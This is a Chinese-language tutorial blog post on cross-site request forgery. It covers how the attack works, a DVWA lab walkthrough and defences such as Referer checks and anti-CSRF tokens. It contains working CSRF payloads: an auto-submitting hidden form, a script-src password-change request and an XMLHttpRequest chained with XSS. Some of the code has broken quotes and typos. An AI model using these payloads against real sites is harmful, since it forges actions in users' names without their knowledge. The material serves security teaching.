

<blockquote class="blockquote-center">长风破浪会有时，直挂云帆济沧海
</blockquote>

　　CSRF（Cross Site Request Forgery）跨站域请求伪造，是一种网络的攻击方式，它在2007年曾被列为互联网20大安全隐患之一,也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF或者XSRF，是一种对网站的恶意利用，也就是人们所知道的钓鱼网站。

<!-- more -->

### CSRF介绍

　　CSRF攻击可以在受害者毫不知情的情况下以受害者名义伪造请求发送给受攻击站点，从而在并未授权的情况下执行在权限保护之下的操作，有很大的危害性。

　　尽管听起来跟XSS跨站脚本攻击有点相似，但事实上CSRF与XSS差别很大，**XSS**利用的是**站点内的信任用户**，而**CSRF**则是**通过伪装来自受信任用户的请求来利用受信任的网站**。

　　与XSS攻击相比，CSRF攻击往往不大流行，因此对其进行防范的资源也相当稀少和难以防范，所以CSRF被认为比XSS更具危险性。


　　上图为CSRF攻击的一个简单模型，用户访问恶意网站B，恶意网站B返回给用户的HTTP信息中要求用户访问网站A，而由于用户和网站A之间可能已经有信任关系导致这个请求就像用户真实发送的一样会被执行。

### CSRF的攻击原理


1、用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；

2、在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；

3、用户在未退出网站A的情况下（cookie有效的情况），在同一浏览器中，打开了另一个网站B；

4、网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问站点A，这个请求会带上浏览器端所保存的有效的站点A的cookie；

5.、浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

　　因此，站点A会报据用户C的权限来处理恶意站点B所发起的请求，而这个请求可能以用户C的身份发送邮件、短信、消息，以及进行转账支付等操作，这样恶意站点B就达到了伪造用户C请求站点 A的目的。

　　受害者只需要做下面两件事情，攻击者就能够完成CSRF攻击：

- 登录受信任站点 A，并在本地生成cookie；
- 在不登出站点A（站点A的cookie有效）的情况下，访问恶意站点B。

　　看到这里，你也许会说：“如果我不满足以上两个条件中的一个，我就不会受到CSRF的攻击。”是的，确实如此，但你不能保证以下情况不会发生：

1、你不能保证你登录了一个网站后，不再打开一个tab页面并访问另外的网站。

2、你不能保证你关闭浏览器了后，你本地的Cookie立刻过期，你上次的会话已经结束。事实上，关闭浏览器不能结束一个会话，但大多数人都会错误的认为关闭浏览器就等于退出登录/结束会话了。

3、上图中所谓的攻击网站，很多情况下可能是一个存在其他漏洞（如XSS）的可信任且经常被人访问的网站。

### CSRF的攻击举例

　　假设某银行网站A以GET请求来发起转账操作，转账的地址为`www.xxx.com/transfer.do？accountNum=l000l&money=10000`，参数accountNum表示转账的账户，参数money表示转账金额。
 而某大型论坛B上，一个恶意用户上传了一张图片，而图片的地址栏中填的并不是图片的地址，而是前而所说的砖账地址：``

　　当你登录网站A后，没有及时登出，这时你访问了论坛B，不幸的事情发生了，你会发现你的账号里面少了10000块。

　　为什么会这样呢，在你登录银行A时，你的浏览器端会生成银行A的cookie，而当你访问论坛B的时候，页面上的``标签需要浏览器发起一个新的HTTP请求，以获得图片资源，当浏览器发起请求时，请求的却是银行A的转账地址`www.xxx.com/transfer.do?accountNum=l000l&money=10000`，并且会带上银行A的cookie信息，结果银行的服务器收到这个请求后，会以为是你发起的一次转账操作，因此你的账号里边便少了10000块。

　　当然，绝大多数网站都不会使用GET请求来进行数据更新，因此，攻击者也需要改变思路，与时俱进。

　　假设银行将其转账方式改成POST提交，而论坛B恰好又存在一个XSS漏洞，恶意用户在它的页面上植入如下代码：

```
<form id="aaa" action="http://www.xxx.com/transfer.do" metdod="POST" display="none">
    <input type="text" name="accountNum" value="10001"/>
    <input type="text" name="money" value="10000"/>
</form>
<script>
    var form = document.forms('aaa');
    form.submit();
</script>
```

　　如果你此时恰好登录了银行A，且没有登出，当你打开上述页面后，脚本会将表单aaa提交，把accountNum和money参数传递给银行的转账地址`http://www.xxx.com/transfer.do`，同样的，银行以为是你发起的一次转账会从你的账户中扣除10000块。

　　当然，以上只是举例，正常来说银行的交易付款会有USB key、验证码、登录密码和支付密码等一系列屏障，流程比上述流程复杂得多，因此安全系数也高得多。

### DVWA下的CSRF攻击实验

#### CSRF漏洞🔺Get方式利用


漏洞确认：

1、修改密码，没有对原密码进行验证，直接修改了， 判断缺少验证机制，可能存在CSRF


2、确认referer无限制，无token

```
http://192.168.123.129/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#
```


漏洞利用：

1、直接发送链接

2、诱骗用户点击

3、会弹出提示

缺点：该利用方法，容易被用户发现。

改进思路：

　　结合XSS，形成XSRF。用户触发XSS漏洞（存储型最佳），然后XSS漏洞执行script`<script src="修改密码的链接"></script>`。前提是需要在用户访问概率高的网站上挖到XSS漏洞，或者欺骗用户访问钓鱼站点。

改进流程：

１、保持dvwa中csrf页面的登录（尾数129）
２、部署一个csrf站点（尾数130），利用XSS(Stored);
３、在130增加一个XSS埋伏

```
<script src="http://192.168.123.129/dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#"></script>
```

４、重新用步骤3的密码123登录，观察效果。

#### CSRF漏洞🔺Post方式利用

##### 使用CSRFTester思路

环境准备：

修改DVWA下CSRF漏洞的源码为POST方式提交

找到`/csrf的index.php`，将`get`提交方式修改为`post`

找到`/csrf的low.php`，将`$＿GET`修改为`$＿REQUEST`(说明:这个表示可以用get也可以用POST)


测试是否成功修改POST提交方式

POST方式提交，提交后URL不会出现具体的参数及参数值


抓取POST提交方式的数据包


通过OWASP CSRFTester抓包


OWASP CSRFTester构建表单

Forms，创建一个form表单。内容为hidden，用户不可见（可get、post）

iFrame：创建一个iframe框架，高宽为0，用户不可见（可get、post ）

IMG：创建一个IMG标签（只能get）

XHR：创建一个AJAX请求（可get、post ）

Link：创建一个a标签的超链接（只能get）

修改上一步生产的index.html



将文档放置在csrf站点，`http://192.168.123.130/csrf/index.html`


测试

1、保持dvwa在csrf的模块

2、在同一个浏览器输入url，`http://192.168.123.130/csrf/index.html`，然后退出dvwa页面登录，测试密码是否为444，但是没有办法静默执行，因为会有提示

##### 使用Ajax思路

通过Ajax，xmlrequest往表单里面提交数据

环境准备：

1、在dvwa上，同时存在csrf和xss

2、在csrf站点上，制造ajax.html

```
<script>
xmlhttp=new XMLHttpRequest();
xmlhttp.open(“POST”,http://192.168.123.129/dvwa/vulnerabilities/csrf/”,true);
xmlhttp.setRequestHeader(“Content-type”,”application/x-www-form-urlencoded”);
xmlhttp.send(“password_new=123456&password_conf=123456”&Change=Change”);
</script>
```


`http://192.168.123.130/csrf/ajax.html`

3、在dvwa下，利用反射型XSS更改密码

```
<script src="http://192.168.123.130/csrf/ajax.html"></script>
```


此时密码已经修改

4、用admin和password登录成功


　　如果在目标站点本身上存在XSS，则可以这样利用，使用`<script>，`标签。但目标站点如果存在XSS，则直接利用XSS比利用CSRF更便捷。

#### 小结

　　`GET方式`，在用户活动状态下点击即可完成操作

　　`POST方式`，`参数不能通过URL提交，需要构建表单`，欺骗用户访问。该情况仍然结合XSS的比较多，或者直接诱骗用户访问攻击者自己搭建的钓鱼站点。

### CSRF漏洞检测😄

　　如何确认一个web系统存在CSRF漏洞呢，最简单的方法就是抓取一个正常请求的数据包，去掉Referer字段后再重新提交，如果该提交还有效，那么基本上可以确定存在CSRF漏洞。

#### 👉步骤1

　　对目标站点进行踩点，对增删改的地方进行标记，并观察其逻辑 

- 比如修改管理员账户时，不需要提供验证旧密码 

- 比如提交留言的动作，关注XX微博的动作等等 

#### 👉步骤2

　　提交操作（get/post），观察http头部 的referer，并验证后台是否有referer限制 

- 比如使用抓包工具抓包，然后修改/删除referer后，重放， 看是否可以正常提交。 

#### 👉步骤3

　　确认cookie的有效性（欺骗，或目标网 站存在漏洞） 

- 虽然退出或关闭了浏览器，但session并没有过期。

　　随着对CSRF漏洞研究的不断深入，不断涌现出一些专门针对CSRF漏洞进行检测的工具，如CSRFTester，CSRF Request Builder。

以CSRFTester工具为例，CSRF漏洞检测工具的测试原理如下：

　　使用CSRFTester进行测试时，首先需要抓取我们在浏览器中访问过的所有链接以及所有的表单等信息，然后通过在CSRFTester中修改相应的表单等信息，重新提交，这相当于一次伪造客户端请求。如果修改后的测试请求成功被网站服务器接受，则说明存在CSRF漏洞，当然此款工具也可以被用来进行CSRF攻击。

### CSRF攻击的防御👍

　　目前防御CSRF攻击主要有三种策略：`验证HTTP Referer字段`；`在请求地址中添加token并验证`；`在HTTP头中自定义属性并验证`。

#### 验证HTTP Referer字段

　　根据HTTP协议，在HTTP头中有一个字段叫Referer，它记录了该HTTP请求的来源地址。在通常情况下，访问一个安全受限页面的请求来自于同一个网站，比如需要访问`http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory`，用户必须先登陆bank.example，然后通过点击页面上的按钮来触发转账事件。这时，该转帐请求的 Referer 值就会是转账按钮所在的页面的URL，通常是以bank.example域名开头的地址。而如果黑客要对银行网站实施CSRF攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的Referer是指向黑客自己的网站。因此，要防御CSRF攻击，银行网站只需要对于每一个转账请求验证其Referer值，如果是以bank.example开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果Referer是其他网站的话，则有可能是黑客的CSRF攻击，拒绝该请求。

　　这种方法的显而易见的好处就是简单易行，网站的普通开发人员不需要操心CSRF的漏洞，只需要在最后给所有安全敏感的请求统一增加一个拦截器来检查Referer的值就可以。特别是对于当前现有的系统，不需要改变当前系统的任何已有代码和逻辑，没有风险，非常便捷。

　　然而，这种方法并非万无一失。Referer的值可以抓包伪造修改，使得黑客完全可以把用户浏览器的Referer值设为以 bank.example 域名开头的地址，这样就可以通过验证，从而进行CSRF攻击。

　　即便黑客无法篡改Referer值，这种方法仍然有问题。因为 Referer 值会记录下用户的访问来源，有些用户认为这样会侵犯到他们自己的隐私权，特别是有些组织担心Referer值会把组织内网中的某些信息泄露到外网中。因此，用户自己可以设置浏览器使其在发送请求时不再提供Referer。当他们正常访问银行网站时，网站会因为请求没有Referer值而认为是CSRF攻击，拒绝合法用户的访问。

#### 在请求地址中添加 token 并验证

　　现在业界对CSRF的防御，一致的做法是使用一个Token（Anti CSRF Token）。

　　CSRF攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于cookie中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的cookie 来通过安全验证。

　　要抵御CSRF，关键在于`在请求中放入黑客所不能伪造的信息`，并且`该信息不存在于cookie之中`。

　　可以在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个token，如果请求中没有token或者token内容不正确，则认为可能是CSRF攻击而拒绝该请求。

比如：

1、用户访问某个表单页面。

2、 服务端生成一个Token，放在用户的Session中，或者浏览器的Cookie中。

3、在页面表单附带上Token参数。

4、用户提交请求后， 服务端验证表单中的Token是否与用户Session（或Cookies）中的Token一致，一致为合法请求，不是则非法请求。

　　这种方法要比检查Referer要安全一些，token可以在用户登陆后产生并放于session之中，然后在每次请求时把token从session中拿出，与请求中的token进行比对。token的值必须是随机的，不可预测的。有了token的存在，攻击者无法再构造一个带有合法token的请求实施CSRF攻击。另外使用token时应注意token的保密性，尽量把敏感操作由GET改为POST，以form或AJAX形式提交，避免token泄露。`但这种方法的难点在于如何把token以参数的形式加入请求`。

　　对于GET请求，token将附在请求地址之后，这样URL就变成 `http://url?csrftoken=tokenvalue`。 而对于POST请求来说，要在form的最后加上 `<input type="hidden" name="csrftoken" value="tokenvalue"/>`，这样就把token以参数的形式加入请求了。

　　但是，在一个网站中，可以接受请求的地方非常多，要对于每一个请求都加上token是很麻烦的，并且很容易漏掉，通常使用的方法就是在每次页面加载时，使用javascript遍历整个dom树，对于dom中所有的a和form标签后加入token。这样可以解决大部分的请求，但是对于在页面加载之后动态生成的html代码，这种方法就没有作用，还需要程序员在编码时手动添加token。

　　该方法还有一个缺点是难以保证token本身的安全。特别是在一些论坛之类支持用户自己发表内容的网站，黑客可以在上面发布自己个人网站的地址。由于系统也会在这个地址后面加上token，黑客可以在自己的网站上得到这个token，并马上就可以发动 CSRF 攻击。为了避免这一点，系统可以在添加token的时候增加一个判断，如果这个链接是指向自己网站的，就在后面添加token，如果是通向其他的则不加。不过，即使这个csrftoken不以参数的形式附加在请求之中，黑客的网站也同样可以通过Referer来得到这个token值以发动CSRF攻击。这也是一些用户喜欢手动关闭浏览器Referer功能的原因。

#### 在 HTTP 头中自定义属性并验证

　　这种方法也是使用token并进行验证，和上一种方法不同的是，这里并不是把token以参数的形式置于HTTP请求之中，而是把它放到HTTP头中自定义的属性里。通过XMLHttpRequest这个类，可以一次性给所有该类请求加上csrftoken这个HTTP头属性，并把token值放入其中。这样解决了上种方法在请求中加入token的不便，同时，通过XMLHttpRequest请求的地址不会被记录到浏览器的地址栏，也不用担心token会透过Referer泄露到其他网站中去。

　　然而这种方法的局限性非常大。XMLHttpRequest 请求通常用于Ajax方法中对于页面局部的异步刷新，并非所有的请求都适合用这个类来发起，而且通过该类请求得到的页面不能被浏览器所记录下，从而进行前进，后退，刷新，收藏等操作，给用户带来不便。另外，对于没有进行CSRF防护的遗留系统来说，要采用这种方法来进行防护，要把所有请求都改为XMLHttpRequest请求，这样几乎是要重写整个网站，这代价无疑是不能接受的。

除了以上的三种主要防御CSRF攻击的策略之外，还有以下几种防御措施👇

#### 尽量使用POST，限制GET

　　GET接口太容易被拿来做CSRF攻击，看第一个示例就知道，只要构造一个img标签，而img标签又是不能过滤的数据。

　　接口最好限制为POST使用，GET则无效，降低攻击风险。

　　当然POST并不是万无一失，攻击者只要构造一个form就可以，但需要在第三方页面做，这样就增加暴露的可能性。

#### 浏览器Cookie策略

　　IE6、7、8、Safari会默认拦截第三方本地Cookie（Third-party Cookie）的发送。

　　但是Firefox2、3、Opera、Chrome、Android等不会拦截，所以通过浏览器Cookie策略来防御CSRF攻击不靠谱，只能说是降低了风险。

Cookie分为两种：

- Session Cookie（在浏览器关闭后，就会失效，保存到内存里）

- Third-party Cookie（即只有到了Exprie时间后才会失效的Cookie，这种Cookie会保存到本地）

　　另外如果网站返回HTTP头包含P3P Header，那么将允许浏览器发送第三方Cookie。

#### 加验证码

　　验证码，强制用户必须与应用进行交互，才能完成最终请求。在通常情况下，验证码能很好遏制CSRF攻击。

　　但是出于用户体验考虑，网站不能给所有的操作都加上验证码。因此验证码只能作为一种辅助手段，不能作为主要解决方案。

### CSRF与XSS的区别✌

1、XSS是盗取用户cookie，从而进一步攻击，CSRF直接完成对受信任网站的攻击；

　　XSS攻击条件比CSRF要简单，完成CSRF攻击要诸多条件；

3、XSS是实现CSRF诸多条件的一种，这样的结合称为XSRF；

4、XSS攻击很多时候是获取信息，不需要提前知道其他用户页面的代码和数据包。CSRF是代替用户完成指定的动作（直接完成攻击目标），需要构造出目标网站的URL结构。

　　**XSS是攻击者偷了你车的钥匙后，用你的钥匙进入到你车，开你的车。**

　　**CSRF是让你自己用钥匙开门后，帮助攻击者开了你的车，并且你没有意识到这个操作。**

### 参考资料

- [带你快速了解CSRF攻击与防御](https://server.zzidc.com/fwqcjwt/web/2295.html)
- [安全|常见的Web攻击手段之CSRF攻击](https://www.jianshu.com/p/67408d73c66d)
- [CSRF攻击与防御](https://blog.csdn.net/xiaoxinshuaiga/article/details/80766369)